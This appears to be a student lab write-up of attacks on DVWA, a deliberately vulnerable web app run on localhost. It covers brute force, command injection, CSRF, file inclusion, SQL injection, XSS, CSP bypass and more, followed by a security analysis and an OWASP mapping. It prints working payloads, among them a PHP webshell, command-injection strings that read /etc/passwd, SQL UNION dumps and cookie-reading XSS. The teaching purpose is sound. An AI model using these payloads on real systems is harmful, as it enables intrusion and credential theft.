### 1. Brute Force


#### Security Level: Low

**Payload Used:**

I used Burp Suite's Intruder to brute force the login form. The login page sends credentials via GET parameters, which makes it easy to automate.

I loaded a common password wordlist (`rockyou.txt`) into Burp Intruder and ran the attack. 

**Result:** Successfully brute forced the password. The response for the correct password contained "Welcome to the password protected area" while wrong attempts showed "Username and/or password incorrect."


**Why it worked:** There's absolutely no rate limiting, no account lockout, no CAPTCHA. The server just compares plaintext credentials with every request.

#### Security Level: Medium

**Payload Used:** Same Burp Intruder approach.

**Result:** The attack still works, but it's noticeably slower. Each failed login attempt has a 2-second `sleep()` delay added server-side. The brute force still succeeded, it just took longer.



**Why it partially worked:** The `sleep(2)` delay is annoying but not a real defense. With a good wordlist the password is usually near the top.

#### Security Level: High

**Payload Used:** Same approach, but now there's an anti-CSRF token involved.

Each login request includes a `user_token` parameter, so I can't just replay requests without extracting the token from the previous response first. I extracted the token from each response and feed it into the next request.

**Result:** Still possible to brute force, but significantly harder to automate. Also, there's a random sleep between 0-3 seconds on failed attempts.


**Why it's harder:** The anti-CSRF token means each request depends on the response of the previous one. You can't just blast requests in parallel. Combined with the random delay, it's a real pain but technically still breakable.

---

### 2. Command Injection


#### Security Level: Low

**Payload Used:**

The page asks for an IP address to ping. I entered:

```
127.0.0.1; cat /etc/passwd
```

**Result:** The server ran `ping -c 4 127.0.0.1` AND `cat /etc/passwd`. I got the full contents of the passwd file alongside the ping output.



**Why it worked:** The PHP code does a straight `shell_exec('ping -c 4 ' . $target)` with zero input filtering. The semicolon terminates the ping command and starts a new one.

#### Security Level: Medium

**Payload Used:**


```
127.0.0.1 | cat /etc/passwd
```

**Result:** Still got the passwd file.



**Why it worked:** There are other shell metacharacters like `|`, `||`, and backticks that still work.

#### Security Level: High

**Payload Used:**

Tried a bunch of things. Most special characters are stripped. However, I noticed:

```
127.0.0.1|cat /etc/passwd
```

(No space after the pipe)

**Result:** It worked! The high-level code strips `"| "` (pipe with a space) but not `"|"` (pipe without a space).



**Why it worked:** A proper fix would be to validate that the input is strictly an IP address using a whitelist approach rather than trying to blacklist dangerous characters.

---

### 3. Cross-Site Request Forgery (CSRF)


#### Security Level: Low

**Payload Used:**

The password change form sends a GET request:

```
http://localhost:8080/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change
```

I crafted a simple HTML page that a victim would visit:

```html

```

**Result:** Opened this HTML file in a browser that was logged into DVWA, the password got changed to "hacked" silently in the background. The image tag will made the GET request automatically.


**Why it worked:** No CSRF token, no `Referer` check, and the form uses GET (which is terrible for state-changing actions). The server blindly processes the request.

#### Security Level: Medium

**Payload Used:**

Now the server checks the `Referer` header, it needs to contain the server's hostname. I hosted my malicious HTML from the DVWA server itself or I could create a page on a domain like `localhost-evil.com` since the check just looks for the string "localhost" anywhere in the Referer.

**Result:** Password was changed again.



**Why it worked:** The `Referer` check is too loose. It only checks if the server name appears anywhere in the Referer string, which is easy to bypass.

#### Security Level: High

**Payload Used:**

The form now includes an anti-CSRF token (`user_token`). To exploit this, I'd need to combine it with another vulnerability (like XSS) to first steal the token from the change password page, then use it to forge the request.

```javascript
// XSS payload to extract token and change password
var xhr = new XMLHttpRequest();
xhr.open('GET', '/vulnerabilities/csrf/', false);
xhr.send();
var token = xhr.responseText.match(/user_token.*?value="(.*?)"/)[1];
// Then make another request with the token
```

**Result:** Requires chaining with another vulnerability (XSS). A standalone CSRF attack won't work because I can't predict the token value.

---

### 4. File Inclusion


#### Security Level: Low

**Payload Used:**

The page loads files via a `page` parameter:

```
http://localhost:8080/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

**Result:** I can read any file on the system. Got the contents of `/etc/passwd` displayed on the page.



**Why it worked:** The `page` parameter is directly passed in PHP with no sanitization. Directory sequences (`../`) let me escape the web directory and read system files.

#### Security Level: Medium

**Payload Used:**

The code now strips `http://`, `https://`, `../`, and `..\` from the input. I used a bypass:

```
http://localhost:8080/vulnerabilities/fi/?page=....//....//....//....//etc/passwd
```

When the code removes `../`, it turns `....//` into `../`.

**Result:** Still got `/etc/passwd`.


**Why it worked:** It doesn't recursively strip the traversal patterns, so doubling up defeats the filter.

#### Security Level: High

**Payload Used:**

The code now requires that the `page` parameter starts with "file" — so I used the `file://` protocol:

```
http://localhost:8080/vulnerabilities/fi/?page=file:///etc/passwd
```

**Result:** Got the file contents again.


**Why it works:** The check is actually meant to allow only "file1.php", "file2.php" etc but accidentally allows the `file://` wrapper too. It's a wrong implementation.

---

### 5. File Upload


#### Security Level: Low

**Payload Used:**

Created a simple PHP webshell:

```php
<?php system($_GET['cmd']); ?>
```

Saved it as `shell.php` and uploaded it through the form.

**Result:** Upload succeeded with no checks. Then I accessed:

```
http://localhost:8080/hackable/uploads/shell.php?cmd=pwd
```

Got back `/var/www/html/hackable/uploads`. Full remote code execution.





**Why it worked:** There is zero validation. No file type checking and no content validation. The file goes straight into a publicly accessible directory.

---

### 6. Insecure CAPTCHA


#### Security Level: Low

**Payload Used:**

The password change process has two steps. Step 1 verifies the CAPTCHA, Step 2 actually changes the password. I skipped step 1 entirely by sending the step 2 request directly:

```
POST /vulnerabilities/captcha/
step=2&password_new=hacked&password_conf=hacked&Change=Change
```

**Result:** Password changed without ever solving a CAPTCHA.


**Why it worked:** The server doesn't verify that step 1 was completed before processing step 2. There's no session-based state tracking between the steps.

#### Security Level: Medium

**Payload Used:**

Now there's a hidden field `passed_captcha` that needs to be set to `true` in step 2. I just added it to my request:

```
step=2&password_new=hacked&password_conf=hacked&passed_captcha=true&Change=Change
```

**Result:** Password changed.


**Why it worked:** A hidden form field is client-side data — I can set it to whatever I want. The check `if ($_POST['passed_captcha'])` is trivially bypassable.

#### Security Level: High

**Payload Used:**

The code now checks the CAPTCHA response server-side AND has a backdoor check: if `$_POST['g-recaptcha-response'] == 'hidd3n_valu3'` and the `User-Agent` contains `reCAPTCHA`, it passes. So:

```
POST with:
g-recaptcha-response=hidd3n_valu3
User-Agent: reCAPTCHA
step=1&password_new=hacked&password_conf=hacked&Change=Change
```

**Result:** Password changed using the developer backdoor.


**Why it worked:** The developers left a hardcoded backdoor in the code (probably for testing). This is a great example of why code review matters — even "secure" code can have intentional backdoors.

---

### 7. SQL Injection


#### Security Level: Low

**Payload Used:**

The User ID input field:

```
1' OR '1'='1
```

To extract more info:

```
1' UNION SELECT user, password FROM users-- -
```

**Result:** The first payload dumped all user records. The UNION based injection gave me all usernames and password hashes from the database.





**Why it worked:** The PHP code directly concatenates user input into the SQL query. No prepared statements and no input validation whatsoever.

#### Security Level: Medium

**Payload:**

```bash
curl -X POST http://127.0.0.1:8080/vulnerabilities/sqli/ \
  -b "PHPSESSID=abc123; security=medium" \
  -d "id=0 UNION SELECT first_name, password FROM users&Submit=Submit"
```

**Result:** All usernames and hashed passwords dumped.


**Why it worked:** Nothing stops us from sending any value in the POST body via curl.

#### Security Level: High

**Payload:** In the input I entered:

```
0' UNION SELECT first_name, password FROM users #
```

**Result:** All usernames and hashed passwords shown on the main page.



**Why it worked:** The input goes through a session variable but there's still no sanitization on it. The `#` comments out the rest of the query including any `LIMIT` clause.

---

### 8. SQL Injection (Blind)

#### Security Level: Low

**Payload:** Boolean-based blind injection. The page just says whether a user ID exists or not, no data is returned directly. I used:

```
1' AND 1=1 #
```
→ "User ID exists in the database." (TRUE)

```
1' AND 1=2 #
```
→ "User ID is MISSING from the database." (FALSE)

**Result:** Confirmed blind injection works. The TRUE/FALSE responses leak the query result. 



**Why it worked:** Same root cause as regular SQL, input goes straight into the query. The difference is the app only shows a binary yes/no rather than actual data, so we have to infer results from the response.

#### Security Level: Medium

**Payload:**

```bash
curl -X POST http://127.0.0.1:8080/vulnerabilities/sqli_blind/ \
  -b "PHPSESSID=abc123; security=medium" \
  -d "id=1 AND 1=1#&Submit=Submit"
```

And then with `1 AND 1=2` to get the FALSE result.

**Result:** Boolean based blind injection confirmed via POST.


**Why it worked:** Same reason as SQL Injection Medium.

#### Security Level: High

**Payload:** Input is submitted via cookie at high level. I used browser DevTools to set the `id` cookie:

```
1' AND 1=1 #
1' AND 1=2 #
```

**Result:** Boolean responses returned as expected. Blind injection still works.



**Why it worked:** Moving the input to a cookie makes automated tools like sqlmap slightly harder to run against it, but the actual query is still vulnerable. There's no validation on what the id cookie contains — it's passed directly into the SQL query the same way.

---

### 9. Weak Session IDs

#### Security Level: Low

**Method:** Clicked "Generate" several times and watched the `dvwaSession` cookie in browser DevTools (Application → Cookies).

**Generation method:** Simple incrementing integer starting from 0.
Values: `dvwaSession=1`, `dvwaSession=2`, `dvwaSession=3`...



**Why it's weak:** Completely predictable. Anyone who generates one session ID can guess every other active session on the server.

#### Security Level: Medium

**Method:** Same observation, generating the cookie and checking the value.

**Generation method:** Unix timestamp at the time the session is generated.
Values look like: `dvwaSession=1741420800`



**Why it's weak:** Timestamps are predictable if you know approximately when a user logged in. An attacker can brute force a time window to find active sessions.

#### Security Level: High

**Method:** Same observation.

**Generation method:** An incrementing counter hashed with MD5 (no salt).
Values look like: `dvwaSession=c4ca4238a0b923820dcc509a6f75849b`



---

### 10. XSS (DOM-Based)

#### Security Level: Low

**Payload:**

```
http://localhost:8080/vulnerabilities/xss_d/?default="></ select>
```

**Result:** Cookie values displayed in an alert box.


**Why it worked:** The `default` URL parameter is read by client side JavaScript and written directly into the page's DOM with no encoding. Whatever we put in the parameter gets inserted as raw HTML and executed.

#### Security Level: Medium

**Payload:** Same URL as low:

```
http://localhost:8080/vulnerabilities/xss_d/?default="></ select>
```

**Result:** Cookie values in alert. Same result.



**Why it worked:** Medium only filters out `<script>` tags. Using an `` tag with `onerror` executes JavaScript just as well, and the filter doesn't touch event handlers on other HTML elements.

#### Security Level: High

**Payload:**

```
http://localhost:8080/vulnerabilities/xss_d/?default=English#<script>alert(document.cookie)</script>
```

**Result:** Cookie values in alert.



**Why it worked:** High security validates the `default` parameter server side and only allows whitelisted language values. But everything after the `#` is never sent to the server. The client side JavaScript still reads the full URL including the fragment and processes it, so our script tag executes without the server checking it.

---

### 11. XSS (Reflected)

#### Security Level: Low

**Payload:**

```
<script>alert(document.cookie)</script>
```

Entered in the name field.

**Result:** Cookie values shown in an alert box.



**Why it worked:** The server shows the input back into the HTML response with no sanitization at all.

#### Security Level: Medium

**Payload:**

```html

```

**Result:** Cookie values in alert.



**Why it worked:** Medium filters `<script>` tags but nothing else. An image with an error handler works just as well for executing JavaScript. The filter is too narrow.

#### Security Level: High

**Payload:**

```html

```

**Result:** Cookie values in alert.



**Why it worked:** High uses a regex to block any variation of `<script>` tags but doesn't filter event handler attributes on other elements. Event handlers like `onerror`, `onload`, `onmouseover` on any HTML tag can trigger JavaScript function.

---

### 12. XSS (Stored)

#### Security Level: Low

**Payload:** In the message field of the guestbook:

```html
<script>alert(document.cookie)</script>
```

**Result:** Every time anyone visits the guestbook page the alert fires with their cookie values. The script is saved in the database.



**Why it worked:** No sanitization on input. The raw script tag goes into the database and comes straight back out into the HTML.

#### Security Level: Medium

**Payload:**

- **Name:** test
- **Message:** ``

**Result:** Stored XSS fires on every page load.



**Why it worked:** Medium security filters `<script>` tags in the message field but does not block other HTML elements or event handler attributes. An `` tag with `onerror` executes as well when the image fails to load.

#### Security Level: High

**Method:** Used browser DevTools to inspect the name input field and increase the `maxlength` attribute from `10` to `100`, then submitted:

- **Name:** `<body onload=alert(document.cookie)>`
- **Message:** anything

**Result:** Stored XSS fires.



**Why it worked:** It enforces the character limit on the name field client side via the HTML `maxlength` attribute but that only exists in the browser. Modifying it in DevTools bypasses the limit instantly. The server doesn't re-validate the length, and event handler attributes on `<body>` aren't caught by the regex that only blocks `<script>` tags.

---

### 13. CSP Bypass

#### Security Level: Low

**Method:** First checked the CSP header in DevTools → Network → Response Headers. The policy allows `script-src 'self'`, meaning scripts hosted on the same server are allowed. I created a `csp.js` file locally:

```javascript
alert("CSP Bypass Successful")
```

Then used the File Upload module to upload `csp.js` to the server. Once uploaded, I went to the CSP Bypass page and entered the URL to the uploaded file in the input box:

```
http://localhost:8080/hackable/uploads/csp.js
```

**Result:** Script executed — alert fired in the browser.



**Why it worked:** The CSP allows scripts from `'self'` (same origin). Since I could upload a `.js` file to the server through the File Upload vulnerability, I hosted my own script on the same origin. The CSP then allowed it to run.

#### Security Level: Medium

**Payload:** The CSP now uses a nonce-based policy, but the nonce is hardcoded in the page source which means it never changes between requests:

```
Content-Security-Policy: script-src 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA='
```

I read the nonce from the page HTML and included it in an injected script tag:

```html
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(document.cookie)</script>
```

**Result:** Script executed.


**Why it worked:** A nonce is a one time random value that changes with every page load. If it's static and hardcoded, any attacker can read it from the source and reuse it indefinitely in their injected scripts.

#### Security Level: High

**Payload:** Opened browser DevTools → Network tab, clicked Submit to trigger a request to `jsonp.php?callback=solveSum`. Opened that endpoint directly in a new tab and changed the `callback` parameter:

```
http://localhost:8080/vulnerabilities/csp/source/jsonp.php?callback=alert(document.cookie)//
```

**Result:** JavaScript executed through the JSONP endpoint.



**Why it worked:** The JSONP endpoint is on the same origin as DVWA, so it's whitelisted by the CSP. But it adds the `callback` parameter directly into the response body as JavaScript (e.g., `alert(document.cookie)//({"key":"value"})`). By controlling the callback value we can control the JavaScript that gets executed.

---


### 14. JavaScript Attacks

#### Security Level: Low

**Method:** Opened browser DevTools → Console and called the token generation function directly:

```javascript
generate_token()
```

Then typed "success" in the phrase field and clicked Submit.

**Result:** "Well done!" success page.



**Why it worked:** The token generation function is exposed in the page's JavaScript. Calling it from the browser console produces a valid token that the server accepts. There's no server side logic and everything is in the client.

#### Security Level: Medium

**Method:** Opened browser DevTools → Console and called the internal token function:

```javascript
do_elsesomething("XX")
```

Then typed "success" and submitted.

**Result:** Token set to the expected value, form submitted successfully.


**Why it worked:** The token function was moved to a separate file to make it less obvious, but it's still readable JavaScript downloaded by the browser.

#### Security Level: High

**Method:** Reverse engineered the token generation algorithm from the JavaScript source:
1. Start with the phrase `success`
2. Prepend `XX` → `XXsuccess`
3. SHA256 hash the result
4. Append `ZZ` → `{hash}ZZ`
5. SHA256 hash again → final token

**Final token:**
```
ec7ef8687050b6fe803867ea696734c67b541dfafb286a0b1239f42ac5b0aa84
```

Sent it via curl:

```bash
curl -X POST "http://localhost:8080/vulnerabilities/javascript/" \
  -d "token=ec7ef8687050b6fe803867ea696734c67b541dfafb286a0b1239f42ac5b0aa84&phrase=success&send=Submit" \
  -H "Cookie: PHPSESSID=t8dk40rt0k1bel64n4unshv6i7; security=high"
```

**Result:** Server accepted the manually computed token.


**Why it worked:** The code still runs in the browser and can be deobfuscated stepped through in DevTools, or reverse engineered. Once the algorithm is understood it's important
 to compute the correct token for any input.

---

## Docker Inspection Tasks

### `docker ps`

```bash
docker ps
```

This shows the DVWA container is running, mapped to port 8080 on the host.



### `docker inspect dvwa`

```bash
docker inspect dvwa
```

Key parts of the output (trimmed for readability):



### `docker logs dvwa`

```bash
docker logs dvwa
```

Shows Apache startup logs:



### `docker exec` — Inside the Container

```bash
docker exec -it dvwa /bin/bash
```

Once inside:

```bash
ls /var/www/html
```



---

## Security Analysis

### Why does SQL Injection succeed at Low security?

At the Low security level, user input is placed directly into the SQL query string without any form of sanitization, or escaping. The PHP code does:

```php
$id = $_REQUEST['id'];
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
```

An attacker can terminate the string with a single quote and inject arbitrary SQL. There are no input validation.

### What control prevents it at High?

At the High level, the following controls are added:
- Input is submitted through a separate popup window and stored in a PHP session variable (makes automated tools harder to use)
- `LIMIT 1` is appended to the query to restrict output
- The result page is separate from the input, complicating exploitation.

### Does HTTPS prevent these attacks? Why or why not?

**No, HTTPS does not prevent any of these attacks.**

HTTPS (TLS/SSL) provides encryption of data and authentication of the server.

But all the vulnerabilities tested here (SQLi, XSS, CSRF, Command Injection, etc.) are application-layer flaws. They happen inside the encrypted tunnel. HTTPS protects the communication channel, not the application logic.


### What risks exist if this application is deployed publicly?

If DVWA were exposed to the public internet:

1. **Full database compromise:** SQL injection allows extracting all user credentials, which are hashed with MD5 (easily crackable)
2. **Remote Code Execution:** Command injection and unrestricted file upload allow arbitrary command execution on the server
3. **Server takeover:** Once an attacker has RCE, they can install backdoors, malware, or use the server for cryptocurrency mining
4. **Data theft:** File inclusion allows reading any file on the server, including configuration files with database passwords
5. **User attacks:** XSS vulnerabilities could be used to steal session cookies from other users and perform actions on their behalf

This is why the assignment explicitly states: **do NOT expose DVWA to the public internet.**

### OWASP Top 10 Mapping

| Vulnerability | OWASP Top 10 (2021) Category |
|---|---|
| Brute Force | A07: Identification and Authentication Failures |
| Command Injection | A03: Injection |
| CSRF | A01: Broken Access Control |
| File Inclusion | A01: Broken Access Control / A05: Security Misconfiguration |
| File Upload | A04: Insecure Design |
| Insecure CAPTCHA | A07: Identification and Authentication Failures |
| SQL Injection | A03: Injection |
| SQL Injection (Blind) | A03: Injection |
| Weak Session IDs | A07: Identification and Authentication Failures |
| XSS (DOM) | A03: Injection |
| XSS (Reflected) | A03: Injection |
| XSS (Stored) | A03: Injection |
| CSP Bypass | A05: Security Misconfiguration |
| JavaScript Attacks | A04: Insecure Design |

---

### HTTP vs HTTPS Traffic


**HTTP traffic (port 8080):**
- All data visible in plaintext

**HTTPS traffic (port 443):**
- All data encrypted with TLS

### Key Differences

| Aspect | HTTP | HTTPS |
|---|---|---|
| Encryption | None, plaintext | TLS encryption |
| Credential visibility | Visible to hackers | Encrypted |
| Certificate required | No | Yes (self-signed or CA-signed) |
| Performance | Slightly faster | Minor overhead from TLS handshake |
| Application layer attacks | Still vulnerable | **Still vulnerable** |

HTTPS protects data in transit but does NOT fix the application vulnerabilities we tested. SQLi, XSS, CSRF, command injection, etc. all work the same way over HTTPS.

---
